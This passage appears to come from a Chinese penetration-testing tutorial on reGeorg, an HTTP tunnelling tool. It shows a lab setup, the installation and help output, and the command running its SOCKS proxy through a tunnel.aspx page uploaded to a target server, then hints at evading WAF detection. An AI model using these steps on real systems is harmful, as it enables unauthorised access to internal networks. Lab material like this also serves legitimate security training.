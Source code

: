 ### 3.2 HTTP 隧道 reGeorg

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。也是目前安全从业人员使用最多，范围最广，支持多丰富的一款 http 隧道。从本质上讲，可以将 JSP/PHP/ASP/ASPX 等页面上传到目标服务器，便可以访问该服务器后面的主机。

**2014年blackhat介绍**

    https://www.blackhat.com/eu-14/arsenal.html#regeorg
    
        

**Github：**

    https://github.com/sensepost/reGeorg
    
        

攻击机：-
192.168.1.5 Debian-
192.168.1.4 Windows 7-
靶机：-
192.168.1.119 Windows 2003-
安装：

    root@John:~# git clone https://github.com/sensepost/reGeorg.git
    Cloning into 'reGeorg'...
    remote: Enumerating objects: 85, done.
    remote: Total 85 (delta 0), reused 0 (delta 0), pack‐reused 85
    Unpacking objects: 100% (85/85), done.
    root@John:~# cd reGeorg/
    root@John:~reGeorg# ls
    LICENSE.html LICENSE.txt README.md reGeorgSocksProxy.py tunnel.ashx tu
    nnel.aspx tunnel.js tunnel.jsp tunnel.nosocket.php tunnel.php tunnel.tomcat.5.jsp
    root@John:~/reGeorg# python reGeorgSocksProxy.py ‐h
    
    
    _____
    _____ ______ __|___ |__ ______ _____ _____ ______
    | | | ___|| ___| || ___|/ \| | | ___|
    | \ | ___|| | | || ___|| || \ | | |
    |__|\__\|______||______| __||______|\_____/|__|\__\|______|
    |_____|
    ... every office needs a tool like Georg 
    
    willem@sensepost.com / @_w_m__
    sam@sensepost.com / @trowalts
    etienne@sensepost.com / @kamp_staaldraad 
    
    usage: reGeorgSocksProxy.py [‐h] [‐l] [‐p] [‐r] ‐u [‐v] 
    
    Socks server for reGeorg HTTP(s) tunneller 
    
    optional arguments:
    ‐h, ‐‐help show this help message and exit
    ‐l , ‐‐listen‐on The default listening address
    ‐p , ‐‐listen‐port The default listening port
    ‐r , ‐‐read‐buff Local read buffer, max data to be sent per POST
    ‐u , ‐‐url The url containing the tunnel script
    ‐v , ‐‐verbose Verbose output[INFO\|DEBUG]
    
        

    root@John:~/reGeorg# pip install urllib3
    Requirement already satisfied: urllib3 in /usr/lib/python2.7/dist‐packages (1.24)
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222242940.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

以aspx为demo

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020092622230823.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

攻击机执行：

    python reGeorgSocksProxy.py ‐p 8080 ‐l 192.168.1.5 ‐u http://192.168.1.119/tunnel.aspx
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222447685.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
Windows下配合Proxifier：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222505727.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222514897.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
目前大部分waf都会针对默认原装版本的reGeorg

    https://micro8.gitbook.io/micro8/contents-1/91-100/98http-sui-dao-regeorg-di-er-ji
    
        

* * *